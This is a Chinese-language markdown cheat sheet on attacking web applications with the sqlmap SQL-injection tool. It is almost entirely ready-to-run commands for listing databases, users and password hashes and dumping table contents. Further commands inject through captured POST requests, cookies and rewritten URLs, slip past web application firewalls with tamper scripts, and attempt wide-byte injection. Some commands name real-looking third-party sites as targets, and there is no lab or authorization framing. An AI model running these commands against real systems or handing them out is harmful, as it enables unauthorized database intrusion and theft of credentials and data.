 # Sqlmap使用
### 常规用法
- `python sqlmap.py -u "地址" --dbs` 列取数据库的所有库
- `python sqlmap.py -u "地址" --users` 查询所有用户
- `python sqlmap.py -u "地址" --passwords` 查询账户和密码
- `python sqlmap.py -u "地址" --current-db` 列取当前数据库
- `python sqlmap.py -u "地址" --current-user` 查询当前用户
- `python sqlmap.py -u "地址" -D 库名 --tables` 查询库中所有表
- `python sqlmap.py -u "地址" -D 库名 -T 表名 --columns` 查询指定库指定表中所有列
- `python sqlmap.py -u "地址" -D 库名 -T 表名 -C 字段,字段,字段 --dump` 查询指定库指定表指定列名的字段
- `-D 库名 -T 表名 -C 字段,字段 -start 1 -stop 10 --dump` 导出 1 到 10 行的字段

### sqlmap post 注入

结合 burpsuite 来使用 sqlmap:
1. 浏览器打开目标地址http:// www.2cto.com /Login.as
2. 配置 burp 代理 (127.0.0.1:8080) 以拦截请求
3. 点击 login 表单的 submit 按钮
4. 这时候 Burp 会拦截到了我们的登录 POST 请求
5. 把这个 post 请求复制为 txt, 我这命名为 search-test.txt 然后把它放至 sqlmap 目录下
6. 运行 sqlmap 并使用如下命令： `python sqlmap.py -r search-test.txt -p tfUPass` 参数 -r 是让 sqlmap 加载 post 请求 rsearch-test.txt， 而 -p 指定注入用的参数。

### sqlmap cookies注入

`sqlmap.py -u “http://127.0.0.1/base.php” –cookies “id=1″ –dbs –level 2`

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我 们直接在原有的基础上面加上 –level 2 即可

利用sqlmap cookies注入突破用户登录继续注入 先把用户登陆的cookie拿到吧， 在收藏夹添加一个链接cookies属性： 名字自己取 javascript:alert(document.cookie)，，需要获取当前cookie的时候， 直接点一下这个链接，然后复制一下弹出对话框 里的cookie值就搞定了

`python sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid –dbms mssql –cookie=”info=username=test”`

-p是指指定参数注入

### sqlmap遇到url重写的注入

哪里存在注入就加上 * 号 `python sqlmap.py -u “http://www.cunlide.com/id1/1*/id2/2“`

### sqlmap 编码绕waf注入

- `python sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper “space2morehash.py”`

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

### 宽字节注入
- `py -2 sqlmap.py -u url?id=1%df%27`


### 相关链接
- https://www.freebuf.com/sectool/164608.html
- http://www.91ri.org/3574.html
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTU4MDI0NDEyOCwtMTkzMDA3OTA5NF19
-->